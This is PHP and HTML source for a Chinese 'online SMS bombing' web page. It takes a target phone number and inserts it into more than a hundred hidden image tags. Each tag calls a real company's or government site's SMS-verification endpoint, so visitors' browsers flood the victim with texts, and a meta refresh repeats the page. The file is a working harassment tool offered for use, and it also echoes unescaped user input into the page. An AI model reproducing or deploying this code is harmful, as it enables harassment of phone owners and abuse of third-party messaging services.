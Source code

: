 <?php
require './php/common.php';
?>
<!DOCTYPE html>
<meta charset="utf-8"/>
<meta name="viewport" content="width=device-width, initial-scale=1">
<title><?php echo $conf['title']?></title>
<meta name="keywords" content="<?php echo $conf['keywords']?>">
<meta name="description" content="<?php echo $conf['description']?>">
<!--本源码作者 宇露网www.dyl5.com  妈妈说删版权会长不大ovo-->
<!-- Bootstrap -->
<link href="http://cdn.bootcss.com/bootstrap/3.2.0/css/bootstrap.css" rel="stylesheet">

<style>
	body{
		margin: 0 auto;
		text-align: center;
	}
	.container {
	  max-width: 580px;
	  padding: 15px;
	  margin: 0 auto;
	}
	

</style>
</head>

<body style="background-image: url(http://www.pptbz.com/pptpic/UploadFiles_6909/201406/2014061415430467.jpg);background-attachment: fixed;background-repeat: no-repeat;background-size: cover;-moz-background-size: cover;">
<div class="container">
	<div class="header">
        <ul class="nav nav-pills pull-right" role="tablist">
          <li role="presentation" class="active"><a href="index.php">短信轰炸</a></li>
          <li role="presentation"><a href="http://www.dyl5.com">下载程序</a></li>
        </ul>
        <h3 class="text-muted" align="left">宇露网</h3>
     </div>
	<hr>
	
	
<div class="panel panel-primary" style="margin:1% 1% 1% 1%;background: rgba(255, 251, 251, 0.7)">
                <div class="panel-heading bk-bg-primary">
                    <h6><span class="panel-title">在线短信轰炸</span></h6>
                </div>
                <div class="panel-body">
				
				 <div class="input-group">
        <span class="input-group-addon">手机号</span>
		<form method="GET" action="index.php">
        <input type="text" name="hm" maxlength="11" class="form-control" placeholder="输入需要轰炸的号码" value="" />
    </div>
		<div id="pre_request"><br />
        <button type="submit" class="btn btn-danger" name="ok" onclick="ajaxRequest(0);">启动轰炸</button>
		<button type="button" class="btn btn-success" onclick="top.location='index.php'">停止线程</button>
 
		</div>
		</form>
<?php
error_reporting(0);
$v=$_GET['c'];
$a=$v+1;
$e=$a;
$d=$_GET['hm'];
?>
    
<div class="tip">
<?php
$i=13;//
if($i==$d){
   echo "<br><br><H4>0</H4>";
}
if($i!=$d and $d>1){
    echo"   <br /><div class='progress progress-striped active'><div class='progress-bar progress-bar-success' style='width: 100%'>轰炸进行中</div></div><div id='ajax_thread_msg'><div class='alert alert-success' style='margin-bottom: 0px;'>轰炸已经启动,  对<strong>$d</strong>,已经开始短信轰炸,请静静的等待1-5分钟查看效果，轰炸进行中请勿关闭页面</div></div>";
    echo "<div style='display:none'>
<img src='https://www.4008123123.com/phhs_ios/isNotExistUser.action?r=0.1279960350321454?phone=$d' alt=''/>
<img src='http://www.chengshiluntan.com/plugin.php?id=zhanmishu_sms:send&no_submit=no_submit&method=send?mobile=$d' alt=''/>
<img src='http://www.medmeeting.com/userInfo/userVerCode?source=web&phone=$d' alt=''/>
<img src='http://www.ksdao.com/sendMsgCode?mobile=$d' alt=''/>
<img src='http://www.jsvideo.tv/sendMsg?phone=$d' alt=''/>
<img src='http://ihaiyan.com/plugin.php?id=smstong:verifycode&idhash=SRhXvpS0&formhash=a8374fdf&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d' alt=''/>
<img src='http://www.kl.cc/User/RegSendMobilMail?t=Sun%20Jul%2030%202017%2011:42:11%20GMT+0800%20(%E4%B8%AD%E5%9B%BD%E6%A0%87%E5%87%86%E6%97%B6%E9%97%B4)?mob=$d' alt=''/>
<img src='http://www.wandafilm.com/login.do?m=sendSms?mobile=$d' alt=''/>
<img src='https://www.xinrong.com/v2/register/register_tel_captcha_check_ip_and_phone.jso?tellPhone=$d' alt=''/>
<img src='http://www.chatm.com/userInfo/smsCode?mobilephone=$d' alt=''/>
<img src='http://www.chatm.com/userInfo/smsCode?mobilephone=$d' alt=''/>
<img src='http://www.rc169.cn/resume/Register_check.aspx?value=$d' alt=''/>
<img src='http://api.funwear.com/mbfun_server/index.php?m=User&a=getcode?account=$d' alt=''/>
<img src='http://www.chinaropeway.org/api/auth/getsmsvalid?datasource=check_regist&app=personal&mod=member&id=$d' alt=''/>

<img src='http://sso1.nlc.cn/sso/currency/sendCodeToMobile?mobile=$d' alt=''/>
<img src='http://www.yl1001.com/personServe/regdeal_2013.php?detail=sendcodeabcd&cks=8a0f106261ec6abad945b1d2041f3346?mobile=$d' alt=''/>
<img src='http://hy.hryouxi.com/HRPF/website/sendSMS.do?phone=$d' alt=''/>
<img src='https://www.4008123123.com/phhs_ios/isNotExistUser.action?r=0.9460999953115119?phone=$d' alt=''/>
<img src='http://www.hongzhoukan.com/ajax/check_tel_reg.php?mobile=$d' alt=''/>
<img src='http://www.no1wp.com/ajax/MobileSendYZM.ashx?nocache=0.3343191107123564&mobile=$d' alt=''/>
<img src='http://www.baiwang.com/cterminal/api/service/getsmsvalidatecode?telephone=$d' alt=''/>
<img src='http://www.upshop.cn/Home/User/registerSendCode.html?mobile=$d' alt=''/>
<img src='http://www.jsvideo.tv/sendMsg?phone=$d' alt=''/>
<img src='http://api.funwear.com/mbfun_server/index.php?m=User&a=getcode?account=$d' alt=''/>
<img src='http://my.21food.cn/register_ajax!sendRegCode2.action?url_randparams=Kr3MLe6134_2c0295ca-452b-44b6-b263-feda6b1ecca8&mobile=$d' alt=''/>
<img src='http://www.xjggjy.com/platform/service/users/register/sendMessage?mobile=$d' alt=''/>
<img src='http://www.mgff.com/passport/send_mobile_yzm?mobile=$d' alt=''/>
<img src='http://member.med66.com/uc/smscode?phone=$d' alt=''/>
<img src='http://www.hzrc.com/ww/b/a/wwba_sendMobileCode.html?phone=$d' alt=''/>
<img src='https://login.zbj.com/register/sendRegisterCode?sacc=$d' alt=''/>
<img src='http://www.zoneidc.com/user/sendmobi.asp?mobi=$d' alt=''/>
<img src='http://passport.ctrl.cn/sms/reg?mobile=$d' alt=''/>
<img src='http://www.ucpaas.com/checkcode/getSessionCountdown?phone=$d' alt=''/>
<img src='https://cardloan.xiaoying.com/h5/user/check_register?mobile=$d' alt=''/>
<img src='http://wifi.gd118114.cn/getPassword.ajax?username=$d' alt=''/>
<img src='http://bj1.xiangcloud.com.cn/customer/sms/?phone=$d' alt=''/>
<img src='http://www.pzhfc.gov.cn/regist/sendcode?mobile=$d' alt=''/>
<img src='https://www.4008123123.com/phhs_ios/isNotExistUser.action?r=0.4572958659946349?phone=$d' alt=''/>
<img src='http://forum.xitek.com/forum.php?mod=ajax&infloat=register&handlekey=register&action=vcode&inajax=1&fp=4155208328&check=80e5&mobile=$d' alt=''/>
<img src='https://login.10086.cn/chkNumberAction.action?userName=$d' alt=''/>
<img src='http://www.023jz.com/register/sendMobileCode.html?mobile=$d' alt=''/>
<img src='http://center.siyi.cn/process.aspx?c=sendvcode&vt=sms&va=reg&mobile=$d' alt=''/>
<img src='http://wap.yunxin123.com/index/getregcode/bid/yunxin?mobile=$d' alt=''/>
<img src='http://i.kuwo.cn/US/2014/api/send_sms.jsp?mobile=$d' alt=''/>
<img src='http://passport.csdn.net/account/mobileregister?action=sendMobileCode&mobile=$d' alt=''/>
<img src='http://www.enjoykeys.com/h5_api/get_verification_code.json|mobile=$d' alt=''/>
<img src='http://mobile.bisinuolan.cn/Home/SendCode|Mobile=$d' alt=''/>
<img src='http://wx.95504.net/MicroSide/JFSCPhoneValidate.ashx|methodflag=setCode&phone=$d' alt=''/>
<img src='http://www.4008123123.com/phhs_ios/sendSmsCodeVip.action|phone=$d' alt=''/>
<img src='http://wifi.gd118114.cn/getPassword.ajax|username=$d&accessType=1&circleId=100000055' alt=''/>
<img src='http://n.youyuan.com/v20/info/send_captcha.html|mobile=$d' alt=''/>
<img src='http://120.25.70.201:6081/GetSmsCheckCode|RequestArgs=$d' alt=''/>
<img src='http://www.czsuchang.com/Member/common/sendphone/|cellphone=$d' alt=''/>
<img src='http://a.whale.ikanlive.com/web/web_send_veri_code|phone=$d' alt=''/>
<img src='http://www.liboshijie.com/public/index.php/Login/phones|mobile=$d' alt=''/>
<img src='http://www.lscp6.com/ajax/reglog.php|txtaction=reg&txttjid=NaN&txttel=$d&txtpsw=a12456&txttype=1&txtcode=' alt=''/>
<img src='http://m.lbwan.com/verify|phone=$d' alt=''/>
<img src='http://www.guoyingjinfu.com/Sso/sendRegisterSmsNew|username=$d&type=pic' alt=''/>
<img src='http://fadmin.lissc.cn/send_sms|username=$d' alt=''/>
<img src='http://www.wantao168.com/u/?mod=reg|action=getcode&tel=$d' alt=''/>
<img src='http://www.pgtcyy.com/register/sendcode|val=$d&imgcode=' alt=''/>
<img src='http://h5.gametanzi.com/media.php?s=/Subscriber/telsvcode.html|phone=$d' alt=''/>
<img src='http://service.6cai310.com/Api/Msg/SendMsg|ticket=0&actionName=sendmsg&content=$d' alt=''/>
<img src='http://r.runlongguoji.com/index.php/Login/sms_valid_code|m=$d' alt=''/>
<img src='http://www.bhwh.gov.cn/api/Util/sendAuthCode.html|mobile=$d' alt=''/>
<img src='http://b2c.csair.com/portal/smsMessage/EUserVerifyCode|mobile=$d' alt=''/>
<img src='http://www.upshop.cn/Home/User/registerSendCode.html|mobile=$d' alt=''/>
<img src='https://passport.xinpianchang.com/api/v1/mobile/send|is_register=1&phone=$d&prefix_code=%2B86' alt=''/>
<img src='http://mskypearl.csair.com/mskypearl/sendRegAuthentiCode.do|contactNum=$d&contactType=PHONE&countryCode=86' alt=''/>
<img src='https://login.10086.cn/chkNumberAction.action|userName=$d' alt=''/>
<img src='https://reg.suning.com/srs-web/ajax/code/sms.do|scen=PERSON_MOBILE_REG_VERIFY_MOBILE&phoneNum=$d&uid=&code=' alt=''/>
<img src='http://123.56.102.205:8280/api/v1/member/send_valid_code|mobile=$d&type=register&platform=pc&time=1500264000165&sign=b8d7180120685fe93608272e095604cf' alt=''/>
<img src='http://www.zhonfan.com/ytbase/system/default.aspx|orgcode=244&tel=$d&YtAction=YtBootstrapPage.OpterAction&YtOpt=getyzm&DB_Conn=DbDefault&YtParamsCount=0' alt=''/>
<img src='http://www.okct.net/client_codeCode.tmp|clientForm.mobile=$d&clientForm.code=&clientForm.password=&clientForm.confirmpassword=&clientForm.allow_argeemet=1&clientForm.act_type=1' alt=''/>
<img src='http://tg.cf300888.com.cn/CoinProject/SendCaptchaController/send/register|mobile=$d&openId=or2A41lTkzVbjJkTbLeND3JOcccg&redPacketId=&isRed=0' alt=''/>
<img src='https://passport.ceair.com/cesso/mobile!geetCheck.shtml?_0.020283224898892227|mobileNo=$d&geetest_challenge=&geetest_validate=&geetest_seccode=' alt=''/>
<img src='http://jubaopen8.com/cornu/sendSms?phone=$d' alt=''/>
<img src='http://www.ishansong.com/web/order/getCaptcha/$d/OGVLTm1rV0lvd0hpSHEwc0s4R3kyY1c4MTUwMTY2NTEwNTUxMjY=' alt=''/>
<img src='http://www.ishansong.com/user/register/captcha/$d/5yax/OGVLTm1rV0lvd0hpSHEwc0s4R3kyY1c4MTUwMTY2NTEwNTUxMjY=' alt=''/>
<img src='http://www.ishansong.com/web/get/voice/code?mobile=$d' alt=''/>
<img src='https://uac.10010.com/portal/Service/CheckNeedVerify?callback=jsonp1501665698499&userName=$d&pwdType=02' alt=''/>
<img src='https://uac.10010.com/oauth2/OpSms?callback=jsonp1501665698500&req_time=1501665713979&user_id=$d&app_code=ECS-YH-WAP' alt=''/>
<img src='http://xq.ibaihe.com/register/captcha?phone=$d&checkRegisted=1&captaha_img=ugaa&_=1501665801145' alt=''/>
<img src='http://www.zhichiwangluo.com/index.php?r=Login/phoneResetCode&phone=$d&allow=1&pic_code=i8si' alt=''/>
<img src='http://www.patfun.com/do.php?ac=check_sms&phone=$d' alt=''/>
<img src='http://www.ixinzang.com/register/checkImgCaptchas?ImgCaptchas=amku&Mobile=$d' alt=''/>
<img src='http://www.ixinzang.com/register/senderRegisterCaptcha?mobilePhone=$d&ImgCaptchas=amku' alt=''/>
<img src='http://ruzhu.jd.com/user/sendVC?phone=$d&graphCode=d365&uid=59819bd57e935230656bad73' alt=''/>
<img src='http://ruzhu.jd.com/user/sendVC?phone=$d&graphCode=d365&uid=59819bd57e935230656bad73' alt=''/>
<img src='http://www.wildto.com/m/api/user?username=$d&type=5&_=1501666525178' alt=''/>
<img src='http://www.wildto.com/m/api/user?username=$d&type=7&auth=denv&_=1501666525496' alt=''/>
<img src='https://www.zuhaowan.com/Login/sendRegSmsCode.html?verify_code=6132&mobile=$d' alt=''/>
<img src='http://center.ixingtu.com/ixtReport4/phoneCode/getIXTCode?phone=$d' alt=''/>
<img src='http://www.peizimenhu.com/misc.php?mod=seccode&action=check&inajax=1&modid=plugin::tshuz_smslogin&idhash=wqSAhMKdYF&secverify=%E8%82%B2%E8%8C%83' alt=''/>
<img src='http://www.niaogebiji.com/forum.php?mod=ajax&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=checkmobile&mobile=$d&0.9895470487106054' alt=''/>
<img src='http://www.guojianquan.com/plugin.php?id=smstong:verifycode&idhash=SAHMf690&formhash=6afe1b70&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=checkmobile&mobile=$d&0.2830665939153326' alt=''/>
<img src='http://www.gsdata.cn/member/checkmobile5?mobile=$d' alt=''/>
<img src='http://www.gsdata.cn/member/sendmobile?mobile=$d&oauth=a78a7bf2063f3deb4fca7f5abeb1071e&time=95271501670751&temp=register' alt=''/>
<img src='http://www.medmeeting.com/userInfo/newVerCode?source=web&imgCode=zvty&phone=$d' alt=''/>
<img src='http://www.fatianshi.cn/Account/GetSmsCode?phoneNumber=$d&_=1501673413347' alt=''/>
<img src='http://www.bdwork.com/appapi.php?mod=phone_getMobileCode&code=194b&mobile=$d' alt=''/>
<img src='http://www.niaogebiji.com/forum.php?mod=ajax&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=checkmobile&mobile=$d' alt=''/>
<img src='http://passport.ziroom.com/verify/code/v2?callback=jQuery18306522735118886429_1501592265458&phone=$d&type=1&imgId=d5a50da1507050b1ff50a0538af096dc&imgVValue=znzh&_=1501592318576' alt=''/>
<img src='http://www.qz91.gov.cn/ajax/ajaxget.ashx?action=GetVCode&mobile=$d' alt=''/>
<img src='http://www.fatianshi.cn/Account/GetSmsCode?phoneNumber=$d&_=1501427630632' alt=''/>
<img src='http://www.niaogebiji.com/forum.php?mod=ajax&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregisterverifycode&requestfrom=register&mobile=$d&0.8251383549402975' alt=''/>
<img src='http://passport.u9game.net/getvcode?phone=$d&for=reg' alt=''/>
<img src='http://jc.chatm.com/login/sendPhoneCaptcha?phone=$d&checkWay=0' alt=''/>
<img src='http://www.niaogebiji.com/forum.php?mod=ajax&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregisterverifycode&requestfrom=register&mobile=$d&0.6065346321485041' alt=''/>
<img src='http://www.amazoner.cn/plugin.php?id=smstong:verifycode&idhash=STIU6B00&formhash=64f578c5&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.2339327853935892' alt=''/>
<img src='http://0517w.com/plugin.php?id=smstong:verifycode&idhash=S0&formhash=20f70e9b&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.009355726803150777' alt=''/>
<img src='http://www.deluxworld.com/bbs/plugin.php?id=smstong:verifycode&idhash=SqF8h7v0&formhash=ad58e184&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=checkmobile&mobile=$d&0.2623440619771774' alt=''/>
<img src='http://www.deluxworld.com/bbs/plugin.php?id=smstong:verifycode&idhash=SqF8h7v0&formhash=ad58e184&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.7397882618655364' alt=''/>
<img src='http://0517w.com/plugin.php?id=smstong:verifycode&idhash=S0&formhash=20f70e9b&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.5420664800524692' alt=''/>
<img src='http://bbs.yiai.me/plugin.php?id=smstong:verifycode&idhash=SRQ13Xn0&formhash=6c39abf9&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=checkmobile&mobile=$d&0.5827007480459947' alt=''/>
<img src='http://bbs.yiai.me/plugin.php?id=smstong:verifycode&idhash=SRQ13Xn0&formhash=6c39abf9&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.45299802084770724' alt=''/>
<img src='http://www.stage1st.com/2b/plugin.php?id=smstong:verifycode&idhash=SlGakCN0&formhash=cded2681&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.6963836390094115' alt=''/>
<img src='http://www.guojianquan.com/plugin.php?id=smstong:verifycode&idhash=SiXXglK0&formhash=6afe1b70&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=checkmobile&mobile=$d&0.7012072842629671' alt=''/>
<img src='http://www.guojianquan.com/plugin.php?id=smstong:verifycode&idhash=SiXXglK0&formhash=6afe1b70&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.6462015323807754' alt=''/>
<img src='http://www.asklicai.com/bbs/plugin.php?id=smstong:verifycode&idhash=SiGx2ec0&formhash=4a2f51c1&seccodeverify=&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregverifycode&mobile=$d&0.7409481565475012' alt=''/>
<img src='http://www.gsdata.cn/member/sendmobile?mobile=$d&oauth=86d721ac61ac63a39b95e19d70ac3999&time=70061501430822&temp=register' alt=''/>
<img src='http://www.chinaropeway.org/api/auth/getsmsvalid?datasource=check_regist&app=personal&mod=member&id=$d' alt=''/>
<img src='http://www.medmeeting.com/userInfo/userVerCode?source=web&phone=$d' alt=''/>
<img src='http://www.niaogebiji.com/forum.php?mod=ajax&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregisterverifycode&requestfrom=register&mobile=$d&0.6581421314683657' alt=''/>
<img src='http://passport.u9game.net/getvcode?phone=$d&for=reg' alt=''/>
<img src='http://passport.u9game.net/getvcode?phone=$d&for=reg' alt=''/>
<img src='http://passport.u9game.net/getvcode?phone=$d&for=reg' alt=''/>
<img src='http://jc.chatm.com/login/sendPhoneCaptcha?phone=$d&checkWay=0' alt=''/>
<img src='http://cowarobot.com/Member/Data/SendCode.aspx?tosj=$d&toyx=&type=1' alt=''/>
<img src='http://yun.cccvip.top/index.php?hn=$d&ok=' alt=''/>
<img src='http://www.chinaropeway.org/api/auth/getsmsvalid?datasource=check_regist&app=personal&mod=member&id=$d' alt=''/>
<img src='http://lxbjs.baidu.com/newFloat/xCode?vtel=$d&siteid=9984520&bdcbid=c41e2a70-f5cd-41e4-89c6-3f783c7f1ff1&refer_domain=&t=1500618244152&callback=_lxb_jsonp_j5dhcvnc_' alt=''/>
<img src='http://www.qz91.gov.cn/ajax/ajaxget.ashx?action=GetVCode&mobile=$d' alt=''/>
<img src='http://lxbjs.baidu.com/newFloat/_c.js?vtel=$d&siteid=9984520&bdcbid=c41e2a70-f5cd-41e4-89c6-3f783c7f1ff1&refer_domain=&code=5A19DA4260F8275BDB050B19467CDD3B32A10AACBB5ECC7B792DC7EF00FE88C6EB4A34C5D4A1B4764A954C6E84833DB6AED04243D8725124D3DE9220A80F464D18523E8AB9C752094CEFD04A0B19BEB99DBA68F25B38ECE5989EBE5B1065F16D&t=1500618244230&callback=_lxb_jsonp_j5dhcvpi_' alt=''/>
<img src='http://www.xbrc.com.cn/xbrc/front/common/send?t=1&sn=$d' alt=''/>
<img src='http://fatianshi.cn/Account/GetSmsCode?phoneNumber=$d&_=1500556088712' alt=''/>
<img src='http://aeventlog.beacon.qq.com:8080/analytics/upload?mType=beacon?rid=7bc4f649d5ce8495&sid=307cbfafd32b47d0572adea2bd99b5ab' alt=''/>
<img src='http://www.fatianshi.cn/Account/GetSmsCode?phoneNumber=$d&_=1500556088712' alt=''/>
<img src='http://www.niaogebiji.com/forum.php?mod=ajax&inajax=yes&infloat=register&handlekey=register&ajaxmenu=1&action=getregisterverifycode&requestfrom=register&mobile=$d&0.6581421314683657' alt=''/>
<img src='http://www.medmeeting.com/userInfo/userVerCode?source=web&phone=$d' alt=''/>
<img src='http://www.bdwork.com//appapi.php?mod=phone_getMobileCode&mobile=$d' alt=''/>
<img src='http://www.hytvu.com.cn/index.php/Study/Sms/sendindexyzm.html?phone=$d' alt=''/>
<img src='http://www.changfanz.com/store/user.php?act=get_verify&mobile_phone=$d&1500968436326326' alt=''/>
<img src='http://www.easyke.com/users/message_code?phone=86$d&demo=undefined&_=1500976424741' alt=''/>
<img src='http://passport.u9game.net/getvcode?phone=$d&for=reg' alt=''/>
<img src='http://ptlogin.4399.com/ptlogin/sendRegPhoneCode.do?phone=$d&appId=u4399&v=1&sig=150106098724920c70e0&v=1' alt=''/>
</div>";
     echo"<meta http-equiv=refresh content='9999999999; url=index.php?hm=$d&amp;c=$a'>";
}

?> <br>
						
<?php echo $conf['gonggao']?>
				<hr><div class="container-fluid">
  <a href="http://shang.qq.com/wpa/qunwpa?idkey=19609478a8ba6ff85b2a86e1d1781859d4ba28e75ad03f3eda9437ae0b519171" class="btn btn-default btn-sm"><span class="glyphicon glyphicon-credit-card"></span> 加群</a>
  <a href="http://www.dyl5.com" class="btn btn-default btn-sm"><span class="glyphicon glyphicon-exclamation-sign"></span> 帮助</a> 
  <button type="button" class="btn btn-info btn-sm" data-toggle="collapse" data-target="#lxkf-1"><span class="glyphicon glyphicon-user"></span> 客服</button> 
  <a href="http://wpa.qq.com/msgrd?v=3&uin=<?php echo $conf['zzqq']?>&site=qq&menu=yes" class="btn btn-default btn-sm"><span class="glyphicon glyphicon-pencil"></span> 反馈</a>
</div>
<p style="text-align:center"><br>&copy; Powered by <a href="http://www.dyl5.com">宇露网</a>!</p></div>
</body>
</html>
